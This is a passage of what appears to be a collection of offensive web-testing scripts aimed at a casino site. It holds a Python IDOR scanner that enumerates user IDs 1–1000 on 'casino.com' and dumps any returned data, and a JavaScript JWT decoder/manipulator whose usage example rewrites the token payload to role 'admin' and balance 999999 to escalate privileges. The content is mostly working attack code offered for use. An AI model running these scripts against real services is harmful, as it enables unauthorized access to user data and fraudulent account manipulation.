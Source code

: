 ```python
            if response.status_code == 200:
                print(f"[+] IDOR Found! ID: {user_id}")
                print(f"    Data: {response.json()}")
            elif response.status_code == 403:
                print(f"[-] Forbidden: {user_id}")
            else:
                print(f"[~] {response.status_code}: {user_id}")
                
        except Exception as e:
            print(f"[!] Error: {e}")

# Usage
headers = {
    'Authorization': 'Bearer YOUR_TOKEN_HERE'
}

scan_idor(
    base_url='https://casino.com',
    endpoint='/api/users/',
    start_id=1,
    end_id=1000,
    headers=headers
)
```

---

### 2. JWT Token Decoder & Manipulator

```javascript
function decodeJWT(token) {
    const parts = token.split('.');
    const header = JSON.parse(atob(parts[0]));
    const payload = JSON.parse(atob(parts[1]));
    
    console.log('Header:', header);
    console.log('Payload:', payload);
    
    return {header, payload};
}

function manipulateJWT(token, changes) {
    const parts = token.split('.');
    let payload = JSON.parse(atob(parts[1]));
    
    // Apply changes
    Object.assign(payload, changes);
    
    // Re-encode (signature will be invalid)
    parts[1] = btoa(JSON.stringify(payload));
    
    return parts.join('.');
}

// Usage
const token = "eyJ0eXAiOiJKV1QiLCJhbG...";
const decoded = decodeJWT(token);

// Try to escalate privileges
const modified = manipulateJWT(token, {
    role: 'admin',
    balance: 999999
});

```